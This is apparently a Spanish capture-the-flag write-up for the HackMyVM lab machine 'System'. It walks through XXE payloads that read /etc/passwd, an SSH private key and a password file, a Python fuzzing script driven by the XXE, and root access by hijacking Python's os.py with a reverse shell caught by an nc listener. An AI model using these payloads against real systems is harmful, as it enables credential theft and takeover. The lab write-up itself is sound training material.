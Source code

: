 ```yaml
---
layout: post
title: Art
date: 2022-12-03
categories: ["HMV", "XXE", "File Edit"]
thumbnail: "assets/images/System.png"
---
```


# System [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.109 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.109 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos en la página vemos un panel para registrarnos, pero cuando tratamos de registrarnos nos dice que nuestro usuario ya existe. Si miramos el apartado de `Network` en las opciones de `developer` (inspeccionar elemento) veremos que cuando hacemos la petición para registrarnos se utiliza `XML`, por lo que podemos intentar `XML External Entity`.

`XXE` es una vulnerabilidad que inyecta `XML` malicioso en dichos archivos, vamos a ver cómo podemos explotarlo:

```
<?xml version="1.0" encoding="UTF-8"?>
<details>
    <email>black@cage.com</email>
    <password>blackcage</password>
</details>
```

Como vemos esto es el `XML` normal, pero si buscamos por `payloads` nos encontraremos con muchos ejemplos de lo que podemos hacer, en este caso vamos a ver el fichero `/etc/passwd`:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<details>
    <email>&ent;</email>
    <password>blackcage</password>
</details>
```

Como habéis visto hemos añadido dos cosas nuevas, la segunda línea está definiendo una variable con el nombre `ent` que va a almacenar el contenido del archivo `/etc/passwd`. En la cuarta línea vemos que estamos llamando a la variable con `&ent;` para que así cuando nos vaya a decir que el correo ya existe nos muestre el fichero ya mencionado.

Bien! Podemos mirar archivos de la máquina! Como vimos antes con `NMap` el puerto `22` (`SSH`) está abierto, por lo que me voy a dirigir a la carpeta `.ssh` del único usuario que he visto (`david`) para tratar de ver su `id_rsa`.

Para ello cambiaremos la segunda línea del `XML` para que `ent` almacene dicho fichero:

```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/david/.ssh/id_rsa"> ]>
```

Bien! Ya tenemos la `id_rsa` de `David`! Aunque hay un problema, si tratamos de entrar con dicha clave nos pide una contraseña, pero no la tenemos.

No pasa nada, vamos a enumerar su directorio personal en busca de un archivo que contenga su contraseña o algo relevante. Para ello creé un `script` en `Python` ya que `BurpSuite` iba bastante lento.

```
import requests

with open("/usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for line in lines:
        line = line.replace("\n", "")
        headers = {
            "Host": "192.168.1.109",
            "User-Agent": "BlackCage",
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Content-Type": "text/plain;charset=UTF-8",
            "Origin": "http://192.168.1.109",
            "Connection": "close",
            "Referer": "http://192.168.1.109/"
        }

        data = f'<?xml version="1.0" encoding="UTF-8"?>\r\n<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///home/david/{line}"> ]>\r\n<details><email>&ent;</email><password>black123</password></details>'

        r = requests.post("http://192.168.1.109/magic.php", headers=headers, data=data, verify=False)
        
        if str(len(r.content)) != "85":
            print(f"{line} | {lenght}")
```

Vemos que primero abre el archivo [`fuzz-Bo0oM.txt`](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/fuzz-Bo0oM.txt), un diccionario que está presente en el repositorio de [`SecLists`](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/fuzz-Bo0oM.txt). Después de eso lee el archivo y lo almacena en una variable llamada `lines`. Con un `for loop` iteramos por cada elemento de `lines`, cada línea estará almacenada en la variable `line`.

Bien, una vez tenemos lo anterior sólo manda la petición a la web con los parámetros adecuados y con `len()` mide el largo del contenido. Si el largo del contenido no es igual a `85` muestra en pantalla la línea utilizada (el fichero que estamos buscando) y el largo de la página.

Olé! Ya sabemos su funcionamiento, vamos a iniciarlo y a ver qué obtenemos:

```
.profile | 892
.ssh/id_rsa | 2687
.ssh/id_rsa.pub | 653
.viminfo | 786
```

Tras unos segundos vemos que varios archivos aparecen, dos de ellos sabemos que no contienen nada (`.ssh/*`) y el archivo `.profile` no contiene información relevante, pero el fichero `.viminfo` tiene una línea muy interesante:

```
# Password file Created:
'0 1 3 /usr/local/etc/mypass.txt
|4,48,1,3,1648909714,"/usr/local/etc/mypass.txt"
```

Vemos un comentario bastante interesante que nos dice que se creó un fichero `Password`. Vemos una ruta: `/usr/local/etc/mypass.txt`, con el `XXE` antes descubierto vamos a ver el contenido:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///usr/local/etc/mypass.txt"> ]>
<details>
    <email>&ent;</email>
    <password>blackcage</password>
</details>
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 03 Dec 2022 16:03:51 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 96

<p align='center'>
  <font color=white size='5pt'>
    h4ck3rd4v!d is already registered!
  </font>
</p>
```

Bien! Ya tenemos la contraseña para el usuario `David` (`david:h4ck3rd4v!d`)!

### Subida de privilegios
Una vez nos hayamos conectado por `SSH` a la máquina víctima tenemos que intentar ser `root`, para ello comencé con enumeración básica, aunque no sirvió de mucho.

Con [`PSPY`](https://github.com/DominicBreuker/pspy) me dispuse a ver los procesos que se ejecutaban en tiempo real y, tras unos minutos de espera, me salió un resultado:

```
2022/12/03 12:13:01 CMD: UID=0    PID=12499  | /bin/sh -c /usr/bin/python3.9 /opt/suid.py
```

Vemos que un `script` en `Python` está siendo ejecutado como `root`, vamos a ver el `script`:

```
from os import system
from pathlib import Path

# Reading only first line
try:
    with open('/home/david/cmd.txt', 'r') as f:
        read_only_first_line = f.readline()
    # Write a new file
    with open('/tmp/suid.txt', 'w') as f:
        f.write(f"{read_only_first_line}")
    check = Path('/tmp/suid.txt')
    if check:
        print("File exists")
        try:
            os.system("chmod u+s /bin/bash")
        except NameError:
            print("Done")
    else:
        print("File not exists")
except FileNotFoundError:
    print("File not exists")
```

Vemos que está importando dos librerías: `os` y `pathlib` de las cuales importará `System` y `Path`. Si continuamos leyendo veremos que abre un archivo en `/home/david` con el nombre de `cmd.txt` y lee sólo la primera línea (y la guarda en una variable).

También abre otro archivo en `/tmp/` con el nombre de `suid.txt` y escribe la línea que antes había leído.

Hace una comprobación, y es que si el fichero `suid.txt` existe intentará cambiar los permisos de `/bin/bash`. Si hay un error al cambiar los permisos mostrará `Done`. Si el fichero `suid.txt` no existe mostrará `File not exists`.

Por último, si el fichero `cmd.txt` no existe no hará nada de lo anterior dicho, sólo mostrará `File not exists`.

Si buscamos por `os.py` (`find / -name os.py 2>/dev/null`) y vemos sus permisos veremos que podemos editarlo, por lo que podemos intentar hacer [`Python Library Hijacking`](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/).

Para ello iremos a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y nos copiaremos la Reverse Shell en `Python` (sin `python -c` ni las comillas simples). Una vez hecho lo anterior podemos copiarlo al final del fichero `os.py` para que se inicie automáticamente.

Bien! Ya tenemos todo preparado! Aunque antes nos tenemos que poner en escucha con `NC`, en mi caso utilizaré el puerto `4444`.

- `nc -nlvp 4444`

Enhorabuena! Tras esperar unos minutos conseguimos una Shell como `root`! Qué fácil!